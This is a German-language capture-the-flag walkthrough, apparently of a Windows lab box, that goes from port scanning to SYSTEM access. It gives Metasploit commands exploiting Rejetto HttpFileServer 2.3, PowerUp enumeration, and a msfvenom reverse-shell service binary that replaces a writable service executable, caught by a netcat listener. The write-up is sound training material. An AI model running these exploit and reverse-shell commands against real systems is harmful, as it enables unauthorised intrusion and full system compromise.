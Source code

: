 # Ziel: 10.10.0.28
# Initial Access

## Scanning 

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http               HttpFileServer httpd 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC


Feststellung 2. Website unter :8080 mit Rejetto HttpFileServer  2.3


Keine Intressante Feststellung via Gobuster


## Exploiting 

Schauen via searchsploit nach passenden Exploit für Rejetto HttpFileServer 2.3

 Exploit Title                                                                                                                                                |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                                                   | windows/webapps/49125.py


Exploit via Metasploit

use exploit/windows/http/rejetto_hfs_exec

->  Payload Reverse Meterpreter shell


-> Initial access geschafft

# Priv Escalation 

## Enumeration 


Kann man via WinPeas machen. Für hier nehme ich aber Powersploit/PrivSec/PowerUp

Laden des Scriptes auf den Host via 

```
upload /opt/PowerSploit/Privesc/PowerUp.ps1
```
in Meterpreter

Starten und Connecten zu Powershell instanz 

```
load powershell
powershell_shell
```

Enumeration via 

```
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```


Intressantes Finding 

```
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

```

Das intressante hier ist `CanRestart: True` Das heist ich kann den Service nach bedaf stoppen und Starten. Das kann man sich so zu nutze machen indem man die Orginale Exe des Services durch eine Custom Exe mit Rev Shell Capability austauscht. 

### Erstellen des Falschen Services

via mfsvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.244.36 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

Jetzt gilt es mit der Meterpreter shell in den Passenden Pfad zu Navigieren, den Dienst zu stoppen und dann die Neue Exe hochzuladen. 

```
# In der Powershell

cd 'C:\Program Files (x86)\IObit\Advanced SystemCare\'

Stop-Service -name AdvancedSystemCareService9
```

danach mit ctl +c die Powershell minimieren und den neuen Service hochladen. 

```
upload /root/ASCService.exe
```

Danach in einer Seperaten Shell den NetCat listener vorbereiten 

```
rlwrap nc -lvnp 4443
```


Nun wieder in die Powershell starten via `powershell_shell` und den Service wieder starten

```
Start-Service -name AdvancedSystemCareService9
```

Netcat fängt die Rev Shell jetzt auf und Tadaa schon sind wir `nt authority\system`